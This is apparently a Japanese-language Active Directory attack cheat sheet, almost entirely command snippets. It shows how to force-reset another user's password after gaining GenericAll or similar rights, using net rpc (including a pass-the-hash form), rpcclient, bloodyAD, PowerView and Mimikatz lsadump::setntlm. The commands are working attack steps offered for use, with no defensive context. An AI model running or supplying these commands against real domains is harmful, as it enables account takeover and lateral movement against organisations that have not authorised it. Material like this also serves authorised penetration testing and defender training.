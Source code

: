 この悪用は、`GenericAll`、`AllExtendedRights`、または`User-Force-Change-Passwordを`持つオブジェクトを制御する際に、ターゲットユーザーに対して実行できる

## Linux

```
net rpc password "<TargetUser>" -U "<DOMAIN>"/"<USERNAME>%<PASSWORD>" -S "<DC_IP>"

# Pass-The-Hash
pth-net rpc password "<TargetUser>" -U "<DOMAIN>"/"<USERNAME>"%"ffffffffffffffffffffffffffffffff":"<NTLM_HASH>" -S "<DC_IP>"
```

rpcclient

```
rpcclient -U <DOMAIN>/<USER> <dc_ip>
rpcclient $> setuserinfo2 <TargetUser> 23 <NewPassword>
```

bloodyAD

```
bloodyAD --host "<DC_IP>" -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" set password "<TargetUser>" "<NewPassword>"
```

## Windows

PowerView

```
# 変数を作成してPassword123!を新しいパスワードに設定
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity '<Target_User>' -AccountPassword $NewPassword

# 変数なし
Set-DomainUserPassword -Identity '<Target_User>' -Verbose
Set-DomainUserPassword -Identity '<Target_User>' -AccountPassword (ConvertTo-SecureString '<NewPassword>' -AsPlainText -Force) -Verbose
```

Mimikatz

```
# ドメインユーザーのリセット
lsadump::setntlm /user:<Target_User> /password:<NewPassword> /server:<DC>

# ローカルユーザーのリセット
lsadump::setntlm /user:Administrator /password:<New_Admin_Password> /server:<Local_Server>
```
